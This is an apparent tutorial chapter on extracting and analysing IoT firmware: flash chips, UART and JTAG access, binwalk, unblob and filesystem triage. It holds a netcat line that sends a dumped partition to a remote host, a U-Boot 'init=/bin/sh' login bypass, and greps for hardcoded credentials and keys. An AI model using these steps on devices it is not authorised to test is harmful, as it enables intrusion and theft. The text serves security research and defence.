







This is Chapter 9 of the Mobile & IoT notebook. The earlier chapters treated a mobile phone as the untrusted client in front of a backend; here the "client" is a router, an IP camera, a smart plug, a PLC, or a car's telematics unit — a physical device whose software (its *firmware*) you can pull off the flash chip, unpack, read, emulate, and break. The mental model carries over almost unchanged: **the device is just a client, its cloud API is a backend, and the firmware is the source code the vendor never meant you to read.** The difference is that IoT hands you something mobile rarely does — the complete, unobfuscated, root-privileged operating system of the target, often with hardcoded credentials and debug shells left in by an overworked embedded team.

IoT is where a single bug scales to millions of identical devices, where patches arrive late or never, and where the same buffer overflow that CTFs retired from web challenges in 2005 is still a remote root in a 2027-shipped camera. That combination — huge fleets, weak security, and long lifetimes — is why firmware analysis is one of the highest-leverage skills in offensive security, and why the defensive side (secure boot, signed updates, SBOMs, network segmentation) is finally becoming a board-level concern.

**Lawful use:** extract and analyze only firmware you own or are explicitly authorised to test. Buying a device gives you broad latitude to tear down *your own* unit and study its firmware (security research and interoperability are protected in many jurisdictions), but attacking a device on someone else's network, exploiting a live cloud backend, or redistributing copyrighted firmware images can cross legal lines fast. Stay on your bench, your lab network, and in-scope targets on bug-bounty programs.

---

## Part 1: What "Firmware" Actually Is — and Why It's Different

Before you can pull firmware apart, you need a precise mental model of what you're pulling apart. "Firmware" is a loose word; in practice it means *the entire software stack burned into a device's non-volatile memory*, and it comes in several very different shapes depending on how powerful the device is.

At the low end sit **bare-metal / RTOS devices**: a microcontroller (an 8-bit AVR, a Cortex-M ARM, an ESP32) running a single monolithic binary with no operating system, or a thin real-time OS like FreeRTOS, Zephyr, or VxWorks. There is no filesystem, no `/etc/passwd`, no processes — the whole program is one flat image mapped straight into memory. Your smart lightbulb, a Bluetooth beacon, a car's individual ECU: these are bare-metal.

At the high end sit **Linux-based embedded devices**: a router, an IP camera, a NAS, an Android-based smart TV. These run a real Linux kernel, a real (usually cut-down) userland — BusyBox instead of full GNU coreutils — and a real root filesystem you can `chroot` into. This is the sweet spot for firmware analysis because everything you learned in the Linux notebook applies directly: same `/etc`, same init scripts, same web servers, same command injection.

The middle ground is everything from **eCos and embedded Linux hybrids** to **Android/Yocto builds**. As a rule of thumb: if the device has more than a few megabytes of flash and does networking, assume Linux until proven otherwise.



**Why firmware is different from ordinary software analysis** comes down to five recurring facts, and internalising them saves you hours:

- **You get the whole thing.** Unlike a web app where you only see responses, firmware hands you the complete server-side code, every binary, every config, every hardcoded key. It is the ultimate white-box target.
- **The architecture is usually not x86.** Embedded CPUs are overwhelmingly **MIPS** (older routers, big/little-endian both common), **ARM** (nearly everything modern, usually little-endian ARMv7/ARM64), and increasingly **RISC-V**. Your tooling must handle cross-architecture disassembly and emulation. `file busybox` returning `ELF 32-bit MSB executable, MIPS` is your first fingerprint.
- **Memory protections are often absent.** No ASLR, no NX/DEP, no stack canaries, no PIE — because the vendor disabled them for size or never enabled them. Exploits that would be hard on a modern desktop are trivial here.
- **Updates are rare and unsigned.** Many devices never receive a patch; many accept unsigned firmware, letting you flash your own backdoored image.
- **Secrets are baked in.** Hardcoded root passwords, private TLS keys shared across an entire product line, API tokens, and Wi-Fi backdoor SSIDs are astonishingly common because "it's compiled, nobody will look."

**Bug-bounty angle:** vendors increasingly run device programs (Netgear, TP-Link, Sonos, Xiaomi, and platform programs on Bugcrowd/HackerOne). A hardcoded credential or an unauthenticated command injection in a shipping firmware image is often a straight critical. **Red-team angle:** a compromised IoT device is a quiet, rarely-monitored pivot deep inside a corporate or OT network — the printer, camera, or badge reader nobody patches. **Blue-team angle:** every fact above is also your defensive checklist — signed updates, enabled mitigations, no hardcoded secrets, network segmentation.

---

## Part 2: The Hardware You Meet — Flash, Buses, and Debug Ports

You cannot reliably extract firmware without recognising the parts on the board. Open any device and you are looking for two categories of chip: **where the firmware lives** (non-volatile storage) and **how you can talk to the CPU** (debug and serial interfaces).

**Storage chips.** Firmware is stored in flash memory, and the package tells you how to read it:

| Storage type | Typical package | Interface | How to dump | Notes |
|---|---|---|---|---|
| SPI NOR flash | 8-pin SOIC (e.g. Winbond W25Q64) | SPI | Clip + `flashrom` | Most common on routers/cameras; easy chip-off-in-place |
| SPI NAND flash | 8-pin SOIC / WSON | SPI | `flashrom`/programmer | Has spare/OOB bytes, needs ECC handling |
| Parallel NAND | 48-pin TSOP | Parallel | NAND programmer | Bigger capacity, harder, ECC & bad-block maps |
| eMMC | 153/169-ball BGA | MMC | `dd` via test pads or reballing | Phones, high-end IoT; often readable live over test points |
| Raw serial EEPROM | 8-pin | I²C/SPI | Bus Pirate / programmer | Config storage, not usually main firmware |

The single most common target is an **8-pin SPI NOR flash** — a chip a few millimetres square with a part number like `25Q64`, `MX25L`, or `GD25`. The `64` means 64 **megabits** = 8 **megabytes**. You read it with a cheap **CH341A** USB programmer and a **SOIC-8 test clip** that clamps onto the chip without desoldering, driven by **flashrom**.

**Debug and serial interfaces** let you talk to the running CPU rather than the flash:

- **UART** (Universal Asynchronous Receiver/Transmitter): a simple 3–4 pin serial console — **TX, RX, GND**, and sometimes VCC. On a huge fraction of devices, UART drops you into the bootloader (U-Boot) and often a **root shell** with no password. Finding UART is frequently the fastest path to firmware and to a live shell.
- **JTAG** (Joint Test Action Group): a low-level CPU debug interface (typically **TCK, TMS, TDI, TDO, TRST**) that lets you halt the CPU, read/write memory and registers, set hardware breakpoints, and dump flash. More powerful than UART, more finicky to wire.
- **SWD** (Serial Wire Debug): ARM's 2-pin JTAG replacement (SWDIO, SWCLK), ubiquitous on Cortex-M microcontrollers.



**How to find UART on an unlabelled board:** look for a header or row of 3–4 pads, often near the CPU or a corner. Use a **multimeter in continuity/voltage mode**: GND is continuous with the board's ground plane and shield; VCC sits steady at 3.3 V; TX pulses (a changing voltage) during boot as the device prints its console; RX usually idles high (~3.3 V) with high impedance. A **logic analyzer** (even a $10 clone running **sigrok/PulseView**) confirms the baud rate — 115200 is the overwhelming default, with 57600 and 9600 as runners-up.

**A word on voltage:** embedded serial is almost always **3.3 V logic**, occasionally 1.8 V, almost never RS-232 levels. Use a **3.3 V USB-TTL adapter** (CP2102, FT232, CH340). Feeding 5 V into a 3.3 V pin can kill the SoC. Never connect the adapter's VCC unless you know you need it — you usually only need TX, RX, and GND.

**CTF/hardware-village angle:** DEF CON's Hardware Hacking Village, and CTF categories like "hardware" or "hw," routinely hand you a board or a UART capture and ask you to find the baud rate, read the console, and pull a flag from the bootloader environment. The exact `screen /dev/ttyUSB0 115200` workflow below is the muscle memory those challenges test.

---

## Part 3: Getting the Firmware — Six Extraction Paths

There is a hierarchy of effort. Always try the easy paths first; only reach for a soldering iron when software fails you.



**Path 1 — Vendor downloads (always try first).** Manufacturers post firmware update files on their support pages for customer self-service. Grab every version you can — old versions often contain bugs patched later, and diffing an old and new image (a "patch diff") points you straight at what the vendor quietly fixed. Sites and communities that aggregate images: the vendor's own support portal, the OpenWrt Table of Hardware, and archived update mirrors. Save the file; you may get a `.bin`, `.img`, `.trx`, `.chk`, `.zip`, or a vendor-wrapped blob.

**Path 2 — Capture the OTA update.** If there's no download but the device updates itself, become the network. Put the device on a Wi-Fi network you control, run a proxy or just `tcpdump`, trigger "Check for updates," and capture the download. Many devices fetch firmware over **plain HTTP** (a finding in itself). Even over HTTPS, if the device doesn't pin certificates you can MITM it with your own CA (exactly the interception skill from Chapter 2, applied to a router instead of a phone).

```bash
# On your interception box / router, capture the update download
sudo tcpdump -i eth0 -w ota_capture.pcap 'host update.vendor.com or port 80'
# Then in Wireshark: File > Export Objects > HTTP  to pull the firmware blob out
```

**Path 3 — UART dump.** If UART gives you a shell (Part 4), you can read the flash from inside the running system. From U-Boot, `sf probe` then `sf read` copies flash to RAM and `md`/serial transfer gets it out. From a Linux root shell, the flash partitions appear as MTD devices:

```bash
cat /proc/mtd                      # list flash partitions and sizes
# dev:    size   erasesize  name
# mtd0: 00040000 00010000 "u-boot"
# mtd1: 00010000 00010000 "u-boot-env"
# mtd2: 00d90000 00010000 "kernel"
# mtd3: 00280000 00010000 "rootfs"
dd if=/dev/mtd3 of=/tmp/rootfs.bin bs=4096     # dump a partition
# exfil over the network (nc, tftp) or base64 over the serial console
nc 192.168.1.100 4444 < /tmp/rootfs.bin
```

**Path 4 — JTAG.** With **OpenOCD** driving a cheap JTAG adapter (FT2232-based, or an ST-Link/J-Link), you halt the CPU and read memory or flash directly. This is the go-to when UART is disabled and the flash can't be clipped.

**OpenOCD from scratch:** OpenOCD (Open On-Chip Debugger) is the free bridge between a JTAG/SWD adapter and your debugger. You give it an *interface* config (which adapter) and a *target* config (which CPU), it connects, and then exposes both a Telnet command port (4444) and a GDB server port (3333). A typical flash-dump session:

```bash
# Start OpenOCD with an interface and a target config
openocd -f interface/ftdi/minimodule.cfg -f target/stm32f1x.cfg
# In another terminal, drive it over telnet:
telnet localhost 4444
> halt                       # stop the CPU
> flash banks                # list flash regions and sizes
> dump_image fw.bin 0x08000000 0x40000    # dump 256KB from flash base to fw.bin
> reg                        # read all CPU registers
> mdw 0x20000000 16          # memory-display 16 words of RAM
```

If **read-out protection (RDP)** is set (common on STM32 and similar MCUs), `dump_image` returns zeros or errors — the vendor fused the debug port closed. That's where hardware attacks (voltage/clock **glitching** to skip the RDP check, or decapping) come in; they're an advanced discipline beyond this chapter, but knowing RDP exists tells you *why* a JTAG dump came back blank.

**Path 5 — In-circuit SPI read (chip-off-in-place).** Clip a **SOIC-8 test clip** onto the SPI NOR chip *while it's still on the board*, wire it to a **CH341A** programmer, and read with **flashrom**. Sometimes the SoC contends for the bus; holding the CPU in reset (grounding a reset pin) or lifting the chip's VCC pin frees the bus.

```bash
# Identify the chip
flashrom -p ch341a_spi
# flashrom detects: "W25Q64.V" (8192 kB, SPI)
# Read it out (do it 2-3x and diff to confirm a clean read)
flashrom -p ch341a_spi -r dump1.bin
flashrom -p ch341a_spi -r dump2.bin
sha256sum dump1.bin dump2.bin        # hashes must match -> good read
```

**Path 6 — Chip-off (last resort).** Desolder the flash with a hot-air rework station, seat it in a programmer socket or adapter, and read it. Required for parallel NAND and locked-down boards, but risks destroying the chip and complicates re-assembly. NAND additionally needs ECC handling and bad-block awareness, which is why NOR is beloved and NAND is feared.

**Bug-bounty reality:** most researchers never touch a soldering iron. Path 1 (download) or Path 2 (OTA capture) yields the image for the vast majority of published IoT bugs. Hardware extraction is for locked-down or high-value targets where the software paths are closed.

---

## Part 4: UART in Practice — From Pads to Root Shell

Because UART is so often the fastest total win, it deserves a full worked walkthrough. The goal: wire a USB-TTL adapter to the board, watch the boot log, and (frequently) land in a root shell.

**Wiring.** Connect adapter **GND -> board GND**, adapter **RX -> board TX**, adapter **TX -> board RX**. (RX/TX cross over — the device's transmit goes to your receive.) Leave VCC disconnected; the board powers itself. Plug the adapter into USB; it enumerates as `/dev/ttyUSB0` (Linux) or `/dev/tty.usbserial-*` (macOS).

**Teaching the tools from scratch:**

- **`screen`** is a terminal multiplexer that also does raw serial. `screen /dev/ttyUSB0 115200` opens the serial line at 115200 baud, 8N1 (8 data bits, no parity, 1 stop bit — the universal default). Exit with `Ctrl-A` then `k`.
- **`minicom`** is a dedicated serial terminal with a config menu (`minicom -s`), useful when you need to change flow control or line settings interactively.
- **`picocom`** is a lightweight middle ground: `picocom -b 115200 /dev/ttyUSB0`.

```bash
# Give yourself permission to the serial device (or add your user to 'dialout')
sudo usermod -aG dialout $USER   # log out/in after this
# Open the console
screen /dev/ttyUSB0 115200
# Now power-cycle the device and watch the boot log:
```

A typical boot log you'd see scroll past:

```
U-Boot 1.1.4 (Aug 12 2019 - 14:22:31)
Board: Ralink APSoC DRAM: 64 MB
Hit any key to stop autoboot:  3
## Booting image at bc050000 ...
Uncompressing Kernel Image ... OK
Linux version 3.10.14 (buildbot@builder) (gcc 4.6.3) ...
...
BusyBox v1.19.4 (2019-08-12) built-in shell (ash)
/ #
```

That final `/ #` is a **root shell with no password** — you now own the device. If instead you see a login prompt, you try default/hardcoded credentials (Part 8), or you interrupt U-Boot.

**Interrupting the bootloader.** The line `Hit any key to stop autoboot: 3` is your window. Press a key during the countdown to drop into the **U-Boot console**, an enormously powerful place:

```
# In U-Boot:
printenv                      # dump all boot environment variables
# bootargs=console=ttyS0,115200 root=/dev/mtdblock3 ...
# You can often add init=/bin/sh to bypass authentication:
setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 init=/bin/sh'
boot                          # boots straight into a root shell, skipping login
# Or dump flash straight from U-Boot:
sf probe
sf read 0x81000000 0x50000 0x400000   # read 4MB of flash into RAM at 0x81000000
md 0x81000000                          # memory-display to eyeball, or transfer out
```

Setting `init=/bin/sh` in `bootargs` tells the kernel to run a shell as PID 1 instead of the normal init system — bypassing any login entirely. This single trick opens a huge fraction of "locked" consumer devices.

**Red-team supply-chain angle:** UART root access on a device model lets you understand it deeply, plant a persistent implant in a lab unit, and validate an attack before deploying it remotely against in-scope fleet devices. **Blue-team angle:** production devices should have UART **disabled or authenticated**, the U-Boot `bootdelay` set to 0, and `CONFIG_BOOTDELAY` locked — but they very often don't, which is exactly why this section exists.

---

## Part 5: binwalk — Reading the Image's Anatomy

Once you have `firmware.bin`, the first tool you reach for is **binwalk**. Teaching it from scratch: binwalk is a firmware *analysis and extraction* tool. It scans a binary for **signatures** (magic bytes) of known file formats — filesystems, compression streams, kernels, bootloaders, certificates — and reports where each begins, so you can carve them out. Think of it as `file` run over every offset of a blob, plus an automatic extractor.

**Install (Kali/Debian):**

```bash
sudo apt update && sudo apt install -y binwalk
# For full extraction support, install the helper unpackers:
sudo apt install -y p7zip-full mtd-utils gzip bzip2 tar arj lhasa \
     cabextract cramfsswap squashfs-tools sleuthkit lzop srecord unzip
# Or the modern rewrite:  pip install binwalk   (v3, Rust-backed)
```

**Core workflow — the signature scan:**

```bash
binwalk firmware.bin
```

Realistic output:

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, ...
                              CPU: MIPS, OS: Linux, image type: OS Kernel Image,
                              compression: lzma, image name: "linux kernel"
64            0x40            LZMA compressed data, properties: 0x5D, ...
1441792       0x160000        Squashfs filesystem, little endian, version 4.0,
                              compression: xz, size: 8523776 bytes, 1842 inodes,
                              blocksize: 131072 bytes, created: ...
```

This tells you the layout: a uImage header at 0, an LZMA-compressed kernel at 0x40, and a **SquashFS root filesystem** at 0x160000. SquashFS is the single most common embedded Linux filesystem — a compressed, read-only image. That's your prize.

**Extraction:**

```bash
binwalk -e firmware.bin          # extract known types
# -e / --extract : carve and decompress recognised signatures
# Output lands in _firmware.bin.extracted/
binwalk -Me firmware.bin         # -M : recursively re-scan extracted output ("matryoshka")
```

**Key binwalk flags, explained:**

| Flag | Meaning | When to use |
|---|---|---|
| `-e` / `--extract` | Extract known signatures using the magic DB | First real extraction pass |
| `-M` / `--matryoshka` | Recursively scan extracted files | Nested archives (almost always) |
| `-E` / `--entropy` | Plot Shannon entropy across the file | Spot encryption/compression |
| `-A` / `--opcodes` | Scan for executable opcodes (arch fingerprint) | Identify CPU of a raw blob |
| `-B` / `--signature` | Signature scan (default) | Layout mapping |
| `--dd='regex:ext:cmd'` | Custom carve rules | Non-standard formats |
| `-D='type:ext'` | Extract specific types only | Targeted carving |
| `-o` / `--offset` | Start scanning at an offset | Skip a known header |

**Entropy analysis** deserves special attention. Run `binwalk -E firmware.bin` and you get a plot of randomness across the image. **High, flat entropy (~1.0)** means compressed *or encrypted* data; **structured, varying entropy** means plaintext/uncompressed regions. The tell for **encrypted firmware** is a large region of uniformly maximal entropy with *no* recognisable signatures anywhere — binwalk finds nothing, and the entropy plot is a flat line near 1.0. That means the vendor encrypts the image, and you'll need the decryption key (often extractable from an earlier unencrypted version, from the bootloader, or from a companion decryptor in the update client).



**A caution about binwalk's extractor:** carving is heuristic and sometimes wrong — it may misidentify offsets or fail on exotic formats. That's exactly why the next tool exists.

---

## Part 6: unblob and Manual Carving — When binwalk Isn't Enough

**unblob** is a modern extraction framework (from ONEKEY) built to be more accurate and thorough than classic binwalk. It has 30+ format handlers, precise start/end offset detection (so it carves cleanly instead of guessing lengths), and recursive extraction by default. When binwalk produces garbage or misses a filesystem, unblob usually gets it.

**Install and run:**

```bash
pip install unblob          # plus system deps: 7z, unar, lziprecover, etc.
unblob --install-deps       # unblob can fetch its own extractor dependencies
unblob firmware.bin -e extracted/     # -e : extraction directory
```

unblob prints a tree of what it found and where it carved it, and recurses automatically. Its precise offset handling means the SquashFS you extract is byte-accurate, which matters if you intend to *modify and re-pack* the firmware later.

**Manual carving with `dd`** is the fallback when you know the offset and length from binwalk but want to extract exactly one region:

```bash
# From binwalk we saw SquashFS at 0x160000 (1441792 decimal)
dd if=firmware.bin of=rootfs.squashfs bs=1 skip=1441792
# skip=<bytes to skip>, bs=1 for byte-accurate offset
# Then unsquash it:
unsquashfs -d rootfs rootfs.squashfs
# unsquashfs : the SquashFS extractor from squashfs-tools
# -d rootfs : destination directory
```

If `unsquashfs` complains about an unsupported compression (e.g. LZMA vs XZ vs LZO), you may need the `-comp` aware build or the `sasquatch` fork, which patches unsquashfs to handle the many vendor-mangled SquashFS variants:

```bash
sasquatch rootfs.squashfs      # handles non-standard/obfuscated SquashFS headers
```

**Common embedded filesystems you'll carve, and their tools:**

| Filesystem | Nature | Extract with | Notes |
|---|---|---|---|
| SquashFS | Compressed read-only | `unsquashfs` / `sasquatch` | By far the most common rootfs |
| JFFS2 | Journaling flash FS (writable) | `jefferson` | Config/overlay partitions; NAND |
| UBIFS | Modern flash FS | `ubireader` / `ubidump` | Larger NAND devices |
| CramFS | Old compressed read-only | `cramfsck` / `uncramfs` | Legacy devices |
| YAFFS2 | Flash FS | `unyaffs` | Older Android, some IoT |
| CPIO/initramfs | Kernel-embedded rootfs | `cpio -idmv` | Bootloaders, initrd |

After extraction you hold a directory tree that looks exactly like a tiny Linux system: `bin/ etc/ lib/ sbin/ usr/ www/ var/`. From here it's the Linux notebook again — read `/etc/passwd`, find the web root, grep for secrets.

---

## Part 7: Firmware Filesystem Triage — Where the Bugs Hide

You now have an extracted rootfs. The next phase is **triage**: rapidly locating the high-value targets. There's a repeatable checklist, and a tool — **firmwalker** — that automates most of it.

**firmwalker from scratch:** it's a shell script that walks an extracted firmware filesystem and greps for interesting things — password files, SSL keys, config files, URLs, IPs, and known-dangerous binaries — writing a report. It's crude but fast and catches the obvious.

```bash
git clone https://github.com/craigz28/firmwalker.git
cd firmwalker
./firmwalker.sh /path/to/extracted/rootfs firmwalker_report.txt
# It searches for: etc/shadow, etc/passwd, *.pem, *.crt, private keys,
# authorized_keys, config files, 'admin', database files, banned binaries, etc.
```

**The manual triage checklist — run these greps every time:**

```bash
cd extracted/rootfs

# 1. Accounts and password hashes
cat etc/passwd etc/shadow 2>/dev/null
# Look for non-root UID-0 accounts, and crackable hashes in shadow

# 2. Hardcoded credentials, keys, tokens across the whole tree
grep -rInE '(password|passwd|pwd|secret|api[_-]?key|token|admin)' . \
     --include='*.conf' --include='*.cfg' --include='*.ini' \
     --include='*.sh' --include='*.lua' --include='*.js' --include='*.php'

# 3. Private keys and certificates (shared across the whole product line = critical)
find . -name '*.pem' -o -name '*.key' -o -name '*.crt' -o -name '*.p12'
find . -name 'authorized_keys' -o -name 'id_rsa*'

# 4. The web application (most command-injection bugs live here)
ls -la www/ web/ htdocs/ usr/www/ 2>/dev/null
